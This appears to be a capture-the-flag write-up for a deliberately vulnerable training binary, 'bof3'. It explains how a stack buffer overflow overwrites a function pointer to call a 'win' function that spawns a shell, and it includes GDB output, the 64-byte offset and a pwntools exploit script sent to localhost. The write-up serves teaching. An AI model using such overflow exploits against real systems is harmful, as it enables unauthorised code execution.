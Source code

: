 # Bof3 Writeup

## Recon
The first step to breaking this binary is to get the ASM output of the binary. This can be done through: `objdump -d -M intel bof3 > bof3.asm`. After is done, you can begin determining which functions are breakable in GDB.

As we scroll through the asm file in an editor of your choice, we will see that there are `win, lose, and main` functions. These are the functions in which we will need to set breakpoints so that we can begin to walk the code execution paths.

## Vulnerability Analysis
Looking at the individual functions, we can begin to see the general idea for the code execution path of the program.

Within the main function, we can see references to the lose function:

Register values at this instruction:
```asm
EAX: 0x80484b4 (<lose>:	push   ebp)
EBX: 0xf7fc1ff4 --> 0x1a2d7c 
ECX: 0x1 
EDX: 0xf7fc38c4 --> 0x0 
ESI: 0x0 
EDI: 0x0 
EBP: 0xffffd1b8 --> 0x0 
ESP: 0xffffd150 --> 0x80485fd --> 0x1007325 
EIP: 0x80484fc (<main+42>:	call   eax)
EFLAGS: 0x282 (carry parity adjust zero SIGN trap INTERRUPT direction overflow)
```
ASM:
```asm
   0x804851c <main+41>:	add    esp,0x10
   0x804851f <main+44>:	mov    eax,DWORD PTR [ebp-0xc]
=> 0x8048522 <main+47>:	call   eax                         ; This is the point in which it calls the address of lose
```
Based on this, we can tell that we need to overwrite the code execution path so that we do not hit the lose function. In this case, it requires us overwritting the value of `EAX` to point to the `win` function before we get to the `call eax` instruction.

## Exploitation
Given that we know this program accepts input through scanf, we can assume we have a buffer that will be storing whatever we enter into the program. This means that we may have the opportunity to overflow the buffer to gain control of the stack, which is required to modify the value of `EAX` before the `call eax` instruction.

To exploit this type of program, one of the easiest way to get a rough estimate of how much data to send to the program to hit a buffer overflow is to look at the prologue:
```asm
   0x80484d2 <main>:	push   ebp
   0x80484d3 <main+1>:	mov    ebp,esp
   0x80484d5 <main+3>:	and    esp,0xfffffff0
   0x80484d8 <main+6>:	sub    esp,0x60
```
Based on this we can see that we were allocated roughly 96 bytes on the stack for variables/operations (indicated by `sub esp,0x60`). Therefore, we can now get a rough estimate for how many characters we need to send to the program to get undefined behaviour (in this case, I use 100).

One of the easiest ways to figure out how many characters it takes to get to the value of EAX on the stack is to use the `pattern` command in gdb:
```sh
gdb-peda$ pattern create 100 u_pattern.txt
Writing pattern of 100 chars to filename "u_pattern.txt"
```
This creates a pattern string of unique sequences that we can enter as input to our program while it is running in gdb. This allows us to search for the index of a particular sequence we find in the eax register after we input the string into the program. This index then gives us the indication as to how many characters are needed before we can overwrite the address in `EAX`.

To use this pattern in gdb, you set your breakpoints and run: `r < u_pattern.txt`. Once this is done, you can now `next` until you hit the `call eax` instruction. Once there, you can observe that the `EAX` register contains the value of a sequence within your pattern string, instead of the address to `lose`. In order to make this useful to you, you must save this sequence (copy it into gedit/nano/notepad/etc) to find the index for later on. In my case, the sequence was:
```asm
EAX: 0x41644141 ('AAdA')
```
Now that we have the sequence, we now have to find out what index this is within the pattern string. To do this, we can do the following:
```sh
$ cat u_pattern.txt
AAA%AAsAABAA$AAnAACAA-AA(AADAA;AA)AAEAAaAA0AAFAAbAA1AAGAAcAA2AAHAAdAA3AAIAAeAA4AAJAAfAA5AAKAAgAA6AAL
```
This will allow us to copy down our entire pattern string, which we will need so that we can find the index of our sequence within it. To find the index, I use python and the `.index()` function on a string type, as seen below:
```sh
$ python
Python 2.7.3 (default, Jun 22 2015, 19:33:41) 
[GCC 4.6.3] on linux2
Type "help", "copyright", "credits" or "license" for more information.
>>> "AAA%AAsAABAA$AAnAACAA-AA(AADAA;AA)AAEAAaAA0AAFAAbAA1AAGAAcAA2AAHAAdAA3AAIAAeAA4AAJAAfAA5AAKAAgAA6AAL".index("AAdA")
64
>>> exit()
```
This allows us to see that it took 64 bytes to reach the value of `EAX` on the stack before the `call eax` instruction. Knowing this, we can now build our exploit string. Since we know that it takes 64 bytes to reach the address read into `EAX`, we can send 64 bytes of whatever character we want. In my case, i use the character `"A"`. We then append the packed address of the `win` function, which contains a system call, to our exploit string. This will allow us to call the `win` function, instead of the `lose` function. Therefore, we will take advantage of the `pwntools` module for the `p32` function to pack our function's address. Therefore, we would use `p32(0x08048494)` to get the packed value of the win function address.

Once we are done with this, we can test our exploit by doing:
```sh
$ python -c "from pwn import *; print ('A' * 64) + p32(0x08048494)" > exploit_string.txt
```
followed by opening gdb with the executable again, resetting the breakpoints, and running with `r < exploit_string.txt` to now supply the input with our exploit string. You can then next all the way to the `call eax` instruction. Once there, you can see how we now have the address of the `win` function in `EAX`. Therefore, if you hit `next` once again, we should now be within the `win` function:
```asm
=> 0x804849a <win+6>:	mov    DWORD PTR [esp],0x80485e0
   0x80484a1 <win+13>:	call   0x8048380 <puts@plt>
   0x80484a6 <win+18>:	mov    DWORD PTR [esp],0x80485ea
   0x80484ad <win+25>:	call   0x8048390 <system@plt>
   0x80484b2 <win+30>:	leave
```
Therefore, if we continue stepping through the function, we shoudl hit the line:
```asm
   0x80484ad <win+25>:	call   0x8048390 <system@plt>
```
which will provide us shell access in our program. Now, it is notable that we will not get shell access within GDB. however, we know that we hit the system call, which is all that really matters right now, as we now know that we are able to modify the code execution path to hit the system call. An example of what you may see in GDB once you hit the system call is as follows:
```sh
[New process 3372]
process 3372 is executing new program: /bin/dash
warning: Selected architecture i386:x86-64 is not compatible with reported target architecture i386
Architecture of file not recognized.
```

If we actually want to be able to get a shell, this will require us building a script to connect to this program running on localhost. Therefore, you will need to have `socat` running on your local so that you can connect to yourself through your exploit script.

Now, there is a copy of the exploit script within this directory of the repository that you can actively run instead of having to copy and paste the following excerpts, however, for the sake of clarity, I will be walking through the exploit script breifly:

First of all, you must import `pwntools`:
```py
from pwn import *
```
This imports all of the pwntool modules into the local namespace in python. You then need to set up your remote connection to connect to whatever IP and PORT you are listening to on `socat` (in my case, its `localhost:1234`):
```py
r = remote("localhost", 1234)
```
You then need to create your exploit to send to the application listening on this address:
```py
exploit = ("A" * 64) + p32(0x08048494)
```
Finally, you send your string to the application, and call the `.interactive()` function to create an interactive shell:
```py
r.send(exploit)
r.interactive()
```
There you go! You just owned the challenge!
